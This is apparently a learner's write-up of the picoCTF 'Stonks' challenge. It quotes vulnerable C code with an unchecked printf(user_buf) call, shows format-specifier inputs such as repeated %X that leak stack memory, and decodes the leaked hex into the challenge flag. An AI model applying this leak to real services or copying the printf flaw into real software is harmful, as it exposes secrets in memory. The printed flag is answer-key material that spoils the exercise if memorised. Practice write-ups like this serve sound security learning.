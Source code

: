 # Description

**tags:Binary Exploitation**

## Notes
- Connect to the server `nc mercury.picoctf.net 16439`
- `cat vuln.c` parts that are interesting
```int buy_stonks(Portfolio *p) {
        if (!p) {
                return 1;
        }
        char api_buf[FLAG_BUFFER];
        FILE *f = fopen("api","r");
        if (!f) {
                printf("Flag file not found. Contact an admin.\n");
                exit(1);
        }
        fgets(api_buf, FLAG_BUFFER, f);
```
```// TODO: Figure out how to read token from file, for now just ask

        char *user_buf = malloc(300 + 1);
        printf("What is your API token?\n");
        scanf("%300s", user_buf);
        printf("Buying stonks with token:\n");
        printf(user_buf);
```

## Connecting to server
```nc mercury.picoctf.net 16439
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
```
Entering 2 will result :
```Portfolio as of Current_time

You don't own any stonks!
Goodbye!
```

Entering 1 will result :
```Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
```
- Whatever value you put in will get executed ( Input is the API? )

## Looking back at the code

```int buy_stonks(Portfolio *p) {
        if (!p) {
                return 1;
        }
        char api_buf[FLAG_BUFFER];
        FILE *f = fopen("api","r");
        if (!f) {
                printf("Flag file not found. Contact an admin.\n");
                exit(1);
        }
        fgets(api_buf, FLAG_BUFFER, f);
```

- From the snippet above, API token looks to be the input.
- The ONLY validation is when the token isn't entered.

```// TODO: Figure out how to read token from file, for now just ask

        char *user_buf = malloc(300 + 1);
        printf("What is your API token?\n");
        scanf("%300s", user_buf);
        printf("Buying stonks with token:\n");
        printf(user_buf);
```

- Comment show that the token is only being asked ( does not get checked )
- Memory space is created with `malloc()` for the API token
- Last line prints out API token with `printf()`

## Input validation
print type specifiers for `printf()` :
Reference: 
https://cplusplus.com/reference/cstdio/printf/

Tried inputting different type specifiers: 
- `%p` for point address
Returned `0x9d7e410` - Converts into a text = `�~A`
- `%c` for character
Returned `�`
- `%x` for hexadecimal
Returned `809e3d0` - Converts into a text = `=`
- `%X` for hexadecimal uppercase
Returned `C`

- Tried inputting multiple `%X`s
Returned :
 `93CF3D0804B00080489C3F7FBBD80FFFFFFFF193CD160F7FC9110F7FBBDC7093CE180193CF3B093CF3D06F6369707B465443306C5F49345F74356D5F6C6C306D5F795F79336E6263376365616336FFEB007DF7FF6AF8F7FC9440C3844B0010F7E58CE9F7FCA0C0F7FBB5C0F7FBB000FFEB7858F7E4968DF7FBB5C08048ECAFFEB78640F7FDDF09804B000F7FBB000F7FBBE20FFEB7898F7FE3D50F7FBC890C3844B00F7FBB000804B000FFEB78988048C8693CD160`

Converts into :

``^fî?°^`H^|?YØÿÿÿñ^fìgYÜp^fí^fî=nãðocip{FTC0l_I4_t5m_ll0m_y_y3nbc7ceac6ÿ^~}
÷ùJ^~÷ùJø÷öt@â÷ßlé÷ö^`À÷õ^uÀ÷õ^pÿ^~ÜH÷Þv^m÷õ^uÀ^`Hì¯ùíÅ@÷÷¿     
^`KYYâùíÈ^o`âùíÈ^o^aÕZ^i ¡ Y°ÿ^~Ü^h^`HÈhnÁ`ÿ^~Ütÿ^~Ü^h^`H¾^=Y?Àÿ^~Ý<ÿ^~Ý4``

- Looks like the flag is in it

Removed unnecessary bytes:
`6F6369707B465443306C5F49345F74356D5F6C6C306D5F795F79336E6263376365616336FF9E06FF9E007D`

Converts to : 
`ocip{FTC0l_I4_t5m_ll0m_y_y3nbc7ceac6ÿ}`
- Looks like it's using different byte order sequence.
- Tried converting endianness
    `}ÿÿ6caec7cbn3y_y_m0ll_m5t_4I_l0CTF{pico`
- Found the sequnce order ( 8-bytes are flipped )
    E.g. First 8 bytes `6F 63 69 70` to `70 69 63 6F`
- Manually relocated bytes
`7069636F4354467B495F6C3035745F346C6C5F6D795F6D306E33795F63376362366361657D00957D009EFF`

Converts to :

**Flag found: picoCTF{I_l05t_4ll_my_m0n3y_c7cb6cae}^~ÿ**

Total time spent : ~6 hours


Hexadecimal Converter: 
https://www.scadacore.com/tools/programming-calculators/online-hex-converer

Endianness Converter:
https://www.save-editor.com/tools/wse_hex.html
